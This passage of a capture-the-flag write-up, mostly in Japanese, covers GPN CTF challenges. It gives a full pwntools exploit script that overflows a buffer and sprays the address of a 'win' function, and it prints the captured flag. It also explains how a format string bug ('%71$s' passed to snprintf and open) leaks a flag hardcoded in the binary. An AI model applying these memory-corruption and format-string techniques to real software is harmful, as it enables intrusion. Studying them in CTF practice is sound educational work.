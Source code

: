 ```python
from pwn import *

elf = context.binary = ELF('./chall')
p = process('./chall')
#p = remote("ironshire-of-mega-ultra-industry.gpn23.ctf.kitctf.de", "443", ssl=True)

p.recvuntil(b'6. Quit\n')
p.sendline(b'4')
p.recvuntil(b':')
p.sendline(b'0')
p.recvuntil(b':')
p.sendline(b'1024')
payload = b'A'*1024 + b'\xff' 
p.send(payload)

p.recvuntil(b'6. Quit\n')
p.sendline(b'4')
p.recvuntil(b':')
p.sendline(b'505')
p.recvuntil(b':')
p.sendline(b'512')
payload = p64(elf.sym['win']) * 64
p.sendline(payload)

p.recvuntil(b'6. Quit\n')
p.sendline(b'6')

p.interactive()
```

`GPNCTF{NOW_yOU_5uRE1Y_ARE_RE4dY_7O_PWn_LaDybIRD!}`

## no-nc
入力に`. / n c`が入っていると入力を受け付けない。  
どうやらファイル自体にフラグがあり、また実行バイナリは`/nc`にあるらしい。  
また、Dockerfileに`RUN gcc nc.c -o /nc -DRAW_FLAG="$FLAG"`という記述があり、`-DRAW_FLAG="$FLAG"`は`$FLAG`環境変数にある文字列を`RAW_FLAG`に注入している。  
これコマンドライン引数だから、これを持っているメモリ領域を見たらフラグが見えるのでは？  

```
snprintf(filename, (sizeof filename)-1, buf);
本来bufの箇所は "%s", buf のように書かれるはずだが、bufだけになっているので書式文字列の脆弱性がある。
bufの箇所で指定された文字列(本来は書式文字列)が、(sizeof filename)-1だけfilenameに書き込まれる
```

というか`sizeof filename`はどう考えても8byteになってしまっており、1引いているので、7byteしか書き込めないことが分かる。  

```
calloc(200, 1);
ヒープに1byteの配列が200個作成
```

結局、書式文字列をブルートフォースしたら、なぜかバイナリファイル自体が読めてしまった。  
どうやら`%71$s`で`./nc`という文字を読んだらしい。  
これがそのまま`open("%71$s", 0)`に渡され、`open`がこれを`./nc`に展開し、実行バイナリをそのまま読み込んだため、バイナリにハードコードされているフラグが読めたということになる。  
